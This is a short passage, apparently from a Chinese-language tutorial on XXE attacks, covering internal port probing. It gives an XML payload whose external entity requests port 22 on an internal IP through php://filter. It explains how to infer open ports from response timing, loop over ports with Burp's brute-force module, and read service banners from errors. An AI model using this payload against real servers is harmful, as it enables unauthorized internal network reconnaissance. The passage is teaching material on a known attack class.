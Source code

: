 ![img](../../images//802f1991a7a7fcc791228ba18de8388f.png)

![img](../../images//106555a9f59ce0a9063c5b5eabaf6128.png)

### 3. 内网端口探测

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "php://filter/convert.base64-encode/resource=http://192.168.11.2:22"> ]>
<creds>&goodies;</creds>
```

根据响应的时间的长短判断端口是否开放，可以通过burp爆破模块遍历端口，如果有报错，可以直接探测出banner信息。
